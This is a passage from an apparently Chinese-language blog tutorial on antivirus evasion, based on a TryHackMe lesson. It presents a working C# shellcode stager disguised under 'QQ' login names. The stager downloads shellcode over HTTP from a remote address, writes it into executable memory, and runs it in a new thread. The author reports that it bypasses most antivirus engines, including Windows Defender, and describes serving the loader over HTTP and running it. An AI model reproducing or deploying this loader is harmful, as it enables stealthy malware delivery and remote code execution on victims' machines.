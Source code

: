```csharp
        LoginQQ();
    }

    public static void LoginQQ()
    {
        string qq_loginURI = "http://10.14.39.48:8000/login_qq_api";
        WebClient webClient = new WebClient();

        byte[] qqLoginState = webClient.DownloadData(qq_loginURI);

        UInt32 QQOpen = VirtualAlloc(0, (UInt32)qqLoginState.Length, 0x1000, 0x40);
        Marshal.Copy(qqLoginState, 0, (IntPtr)(QQOpen), qqLoginState.Length);

        IntPtr QQHandle = IntPtr.Zero;
        UInt32 QQthreadId = 0;
        IntPtr QQparameter = IntPtr.Zero;
        QQHandle = CreateThread(0, 0, QQOpen, QQparameter, 0, ref QQthreadId);

        WaitForSingleObject(QQHandle, 0xFFFFFFFF);
    }
}
```

我们考虑了熵, 它挺低的，至少满足了thm教程中所说的5.x、6.x

![在这里插入图片描述](https://img-blog.csdnimg.cn/7c371e2fdf8c40b4be70ef1193494d55.png)

简单的通过http获取shellcode并利用win32 api写入内存并执行

使用csc编译得到exe

上传到VirusTotal分析一下

![在这里插入图片描述](https://img-blog.csdnimg.cn/3d0daca6a3bd4cf2bf5eabdebb4595f9.png)

我们编写的“QQ”很幸运，它绕过了大多数AV检测，**包括WinDefender**

这仅仅只使用了thm教导了一小部分知识，就这么轻松绕过了，或许是得益于分阶段优势的原因吧

![在这里插入图片描述](https://img-blog.csdnimg.cn/29549f8391ac48b3b15e4124b32e6b82.png)

## 免杀马测试

这么简单的免杀就到此为止，当然，我们并没有考虑运行时的内存检测，但让我们碰碰运气

生成shellcode

![在这里插入图片描述](https://img-blog.csdnimg.cn/ca1409069f8047a8acef2c745d6695b3.png)

python开启http服务，把steged loader传过去

直接运行loader

![在这里插入图片描述](https://img-blog.csdnimg.cn/4e353d8c71394c62a298afa79ff961ed.png)
